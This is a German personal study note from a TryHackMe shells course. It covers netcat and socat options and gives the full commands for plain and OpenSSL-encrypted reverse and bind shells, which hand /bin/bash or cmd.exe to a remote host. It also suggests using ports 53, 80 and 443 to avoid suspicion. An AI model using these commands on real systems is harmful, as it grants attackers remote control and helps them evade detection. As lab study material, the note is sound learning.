

# netcat & socat
Angelegt Montag 07 November 2022

* Sehr sinnvoll bei der Verwendung von [:Linux:TryHackMe:**Reverse & Bind Shells**](./TryHackMe/Reverse_&_Bind_Shells.md)

netcat
------

### Optionen
``-l`` startet einen *Listener*
``-v`` *verbose*-Ausgabe
``-n`` Auflösen von Host-Namen oder DNS (TODO keine Ahnung, was das genau bedeutet)
``-p PORT`` Angabe des Ports, Ports <1024 benötigen ``sudo``-Rechte

* Für [:Linux:TryHackMe:**Reverse & Bind Shells**](./TryHackMe/Reverse_&_Bind_Shells.md) bieten sich bekannte Ports wie ``53``, ``80``, ``443`` an, um weniger Verdacht zu erregen.

``-e PROGRAMM``, führe ``PROGRAMM`` aus, sobald Verbindung hergestellt wurde
❗️Haben nicht alle Versionen von ``netcat``

* als *Listener* sinnvoll, bspw.
	* *Bind Shell*: ``nc -lvnp PORT -e /bin/bash``
	* *Reverse Shell*: ``nc <MEINE IP> PORT -e /bin/bash``

socat
-----
[Intro to Shells, Task 6 − TryHackMe](https://tryhackme.com/room/introtoshells) (dort findet sich auch etwas zu Windows)

* Für ``socat``*-Reverse & Bind Shells* s. [Reverse & Bind Shells#socat-Reverse & Bind Shell](./TryHackMe/Reverse_&_Bind_Shells.md)
* teilweise ähnlich so [#netcat](#Linux:netcat & socat) aber dann wieder grundlegend verschieden
* Syntax ist schwieriger als bei [#netcat](#Linux:netcat & socat)
* kann man sich als Verbindung zw. zwei Punkten, bspw. hörender Port & Tastatur ([:Linux:**Deskriptoren#stdin**](./Deskriptoren.md)), hörender Port & Programm oder hörender Port & Datei, etc.
* ``-d`` (evtl. auch ``-d -d``) für ausführlichere Ausgabe

### Verschlüsselte Shells

* Verschlüsselte Shells möglich: Einfach ``tcp`` mit ``openssl`` ersetzen und [:Linux:**Zertifikat**](./Zertifikate.md) angeben:

#### Reverse

* Listener (bei mir):

	socat OPENSSL-LISTEN:<PORT>,cert=<ZERTIFIKAT.pem>,verify=0 - # Bindestrich nicht vergessen

* ``verify=0`` Zertifikatsverifizierung wird nicht durchgeführt

* Gegenstück (bei Ziel):

	socat OPENSSL:<LOCAL-IP>:<LOCAL-PORT>,verify=0 EXEC:/bin/bash

#### Bind Shell

* Listener (bei Ziel):

	socat OPENSSL-LISTEN:<PORT>,cert=shell.pem,verify=0 EXEC:cmd.exe,pipes

* Gegenstück (bei mir):

	socat OPENSSL:<TARGET-IP>:<TARGET-PORT>,verify=0 - # Bindestrich nicht vergessen

#### Schematischer Ablauf

* links: Angreifer
* rechts: Ziel

